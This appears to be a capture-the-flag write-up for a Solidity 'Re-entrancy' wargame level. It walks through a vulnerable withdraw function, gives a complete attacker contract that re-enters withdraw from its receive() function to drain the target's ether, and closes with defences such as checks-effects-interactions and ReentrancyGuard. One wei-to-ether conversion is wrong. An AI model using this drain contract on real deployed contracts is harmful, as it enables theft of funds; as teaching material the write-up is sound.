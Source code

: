 # Re-entrancy

The goal of this level is to steal all the funds from the contract.

Things that might help:

- Untrusted contracts can execute code where you least expect it.
- Fallback methods
- Throw/revert bubbling

## Code Breakdown

[The Smart Contract's Code can be seen here.](Reentrance.sol)

```solidity
using SafeMath for uint256;
mapping(address => uint) public balances;
```

The contract has one public mapping `balances` to keep tracking the balance of each address that has donated.

```solidity
function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }
```

`donate` allows users to donate funds to a specific address by calling the function and specifying the recipient's address as an argument. The function uses the SafeMath library to add the value of the donation to the recipient's balance.

```solidity
function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }
```

`balanceOf` allows users to view the balance of a specific address and takes that address as an argument.

```solidity
function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}(""); // At this point, the caller's code is executed, and can call withdraw again
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
```

`withdraw` allows users to withdraw their funds from the contract by calling the function and specifying the amount they want to withdraw. The function checks if the user has sufficient funds and, if so, calls the recipient's contract to transfer the funds. It then subtracts the withdrawn amount from the user's balance.

This contract is vulnerable to a reentrancy attack.

**_A reentrancy attack occurs when a contract calls another contract in a way that allows the called contract to call back into the original contract before the original contract has finished executing. This can potentially allow an attacker to repeatedly withdraw funds from the contract before the contract has a chance to update the user's balance, allowing the attacker to steal funds from the contract._**

the `withdraw` function calls the `msg.sender` address, which may be an attacker-controlled contract that is designed to call back into the withdraw function in an attempt to repeatedly withdraw funds.

## Game Completion

Let's create a smart contract to exploit this and drain `Reentrance` contract funds:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Reentrance {
    function withdraw(uint _amount) external;
    function donate(address _to) external payable;
}

contract ReentranceHack {
    Reentrance rt;
    uint256 amount = 100000000000000; // 0.0001 ethers

    constructor(address _instance) public {
        // initialize with instance address
        rt = Reentrance(_instance);
    }

    receive() external payable{
        rt.withdraw(amount); // when we receive our initial amount we will call the withdraw() again and receive ether again since our balance is not updated yet
    }

    function hack() public payable{
        rt.donate{value: amount}(address(this)); // send 0.0001 ethers to the game contract's
        rt.withdraw(amount); // withdraw the same amount to trigger the receive() function
    }
}
```

Let's deploy our contract on [Remix IDE](https://remix.ethereum.org), and execute the `hack()` with a value of 10000000000000000 wei or 0.0001 ethers (same as the game instance's current balance).
After the execution, we will end up with **_0.0011 eth_**:
0.0001 eth deposited earlier + 0.001 eth already in game instance balance.

Let's see how our transaction went in the block explorer:

<img src="img/block-explorer.png">

we can see the `donate()` call followed by **_11_** `withdraw()` functions.

`Note: we might have to raise the Gas Limit on Metamask a bit if there are a lot of withdraw() calls so the transaction won't revert because of insufficient gas`

To prevent reentrancy attacks when moving funds of contracts we can use several methods:

- [Checks-Effects-Interaction Pattern](https://docs.soliditylang.org/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) : Using this pattern when coding smart contracts is one of the ways to prevent reentrancy attacks. Checks must be done first, if all checks passed, effects to the state variables of the current contract should be made. Interaction with other contracts should be the very last step in any function.

- Mutex Or Lock: This will lock the current state so that any malicious attempts will be reverted. This ensures hat the contract is not interrupted while it is in the middle of processing a transaction. The unlock will then occur at the end of the function so it can be accessed next time. This design cannot be applied to all function logics..

- Pull Payments: The idea is that instead of pushing funds to a receiver, they have to be pulled out of the contract, that way we do not run arbitrary code.

- [ReentrancyGuard](https://docs.openzeppelin.com/contracts/3.x/api/utils#ReentrancyGuard) : Made by OpenZeppein, inheriting from this contract will make the **_nonReentrant_** modifier available.

